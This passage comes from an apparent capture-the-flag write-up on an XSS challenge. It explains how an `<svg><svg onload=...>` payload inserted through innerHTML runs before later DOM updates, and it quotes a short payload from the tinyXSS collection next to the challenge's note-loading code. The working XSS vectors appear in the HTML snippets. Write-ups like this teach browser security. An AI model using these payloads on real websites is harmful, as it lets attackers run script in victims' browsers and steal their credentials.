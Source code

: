 Using this loophole, you can do XSS without relying on Markdown, and then use the magical attribute `RegExp.input` to get the password.

### Unexpected solution

The unexpected solution for this question is also super cool. You don't need `RegExp.input` anymore. The feature used is this piece of code:

``` js
document.querySelector('.note').innerHTML = text;
document.querySelector('.views').innerText = views;
```

You might expect that after inserting HTML, it will continue to execute and then execute the content inside the HTML, for example:

``` html
<div id=x></div>
<div id=y>hello</div>
<script>
    x.innerHTML = '<img src=x onerror=alert(window.y.innerText)>'
    y.innerText = 'updated'
</script>
```

The displayed alert will be `updated`. The event of the img is indeed executed later, but if it is written like this, it will be different:

``` html
<div id=x></div>
<div id=y>hello</div>
<script>
    x.innerHTML = '<svg><svg onload=alert(window.y.innerText)>'
    y.innerText = 'updated'
</script>
```

If written like this, the content in `onload` will be executed before `y.innerText = 'updated'`, so the content of the alert will be `hello`. This payload is also recorded in [tinyXSS](https://github.com/terjanq/Tiny-XSS-Payloads):

``` html
<!-- In chrome, also works inside innerHTML, even on elements not yet inserted into DOM -->
<svg><svg/onload=eval(name)>
```

So what can we do with this knowledge?

Let's first organize the code that loads the notes. After simplification, it looks like this:

``` js
(async () => {
  const { note, mode, views } = await (await fetch('/view', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
    },
    body: JSON.stringify({
      username,
      password,
      id: params.get('id')
    })
  })).json();

  document.querySelector('.note').innerHTML = text;
  // 在底下這行執行之前，會先執行我們的 XSS payload
  document.querySelector('.views').innerText = views;
})();
```
